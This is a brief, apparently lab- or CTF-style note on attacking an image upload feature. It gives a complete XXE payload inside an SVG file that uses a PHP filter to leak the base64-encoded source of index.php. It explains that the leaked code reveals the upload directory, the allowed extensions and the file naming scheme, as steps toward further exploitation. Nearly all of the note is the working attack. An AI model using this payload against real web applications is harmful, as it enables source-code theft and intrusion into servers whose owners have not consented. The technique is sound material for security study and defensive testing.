

get php file
SVG image that leaks the content of index.php to:
◇ locate the upload directory
◇ identify allowed extensions
◇ find the file naming scheme
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
we should get the base64 encoded content of index.php in the source code of the webpage, which we can decode to read the source code. Then identify possible useful informations
